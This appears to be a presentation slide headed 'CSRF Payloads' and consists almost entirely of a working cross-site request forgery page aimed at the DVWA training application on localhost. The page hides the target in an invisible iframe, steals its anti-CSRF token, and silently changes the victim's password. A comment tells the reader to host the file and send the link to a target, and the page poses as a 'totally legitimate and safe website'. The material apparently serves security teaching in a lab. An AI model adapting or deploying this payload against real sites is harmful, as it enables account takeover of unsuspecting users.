

# CSRF Payloads
// Find a way to run the code of the file below. Can be a file upload vulnerability. Then send the link to the target.

<html>
 <body>
 <p>TOTALLY LEGITIMATE AND SAFE WEBSITE </p>
 <iframe id="myFrame"
src="http://localhost/DVWA/vulnerabilities/csrf" style="visibility:hidden;" onload="maliciousPayload()"></iframe>

 <script>
 function maliciousPayload() {
 console.log("start");
 var iframe = document.getElementById("myFrame");
 var doc = iframe.contentDocument || iframe.contentWindow.document;
 var token = doc.getElementsByName("user_token")[0].value;
const http = new XMLHttpRequest();
 const url = "http://localhost/DVWA/vulnerabilities/csrf/?password_new='password'&password_conf='password'&Change=Change&user_token="+token+"#";
 http.open("GET", url);
 http.send();
 console.log("password changed");
 }
 </script>

 </body>
</html>